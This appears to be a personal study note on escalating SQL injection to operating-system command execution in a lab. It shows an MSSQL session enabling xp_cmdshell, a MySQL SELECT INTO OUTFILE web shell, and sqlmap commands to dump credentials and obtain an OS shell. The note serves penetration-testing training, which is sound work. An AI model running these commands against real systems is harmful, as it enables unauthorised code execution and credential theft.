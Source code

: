 # Manual Code Execution

Depending on OS, user privileges and permissions, we could use SQLi to execute commands to the underlying OS.
## MSSQL

[_xp_cmdshell_](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) function takes a string and passes it to a command shell for execution. The function returns any output as rows of text. The function is disabled by default and once enabled, it must be called with the **EXECUTE** keyword instead of SELECT.

```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```

We can then do `EXECUTE xp_cmdshell 'whoami';`
	We can use this to execute commands.

## MySQL

MySQL database variants don't offer a single function to escalate to RCE, we _can_ abuse the [_SELECT INTO_OUTFILE_](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) statement to write files on the web server. For this to work file location must be writable to OS user running the database software.

![[Pasted image 20250704224226.png]]
*We can execute this command (assuming UNION payload in [[10.2 Manual SQL Exploitation]]*).

Then we can access where this web shell is `/tmp/webshell.php?cmd=id` and the output may appear on screen.

# Automating the Attack

 [_sqlmap_](http://sqlmap.org/) can identify and exploit SQL injection vulnerabilities against various database engines. High amounts of traffic so may generate many logs.

`sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user`
	URL we want to scan with **-u** and specify the parameter to test using **-p**. The `user=1` just places a dummy value for the attack.

`sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump`
	We can dump the entire database table and steal user credentials.

**Steps to get full interactive shell with SQLmap**:
1. Intercept POST request via Burp (any request vuln to sqli?)
2. Copy that to a TEXT file
3. Then do `sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"`.
	The file to write to (here tmp) should be any writable file on the website. `-r` for specifying the request file. 

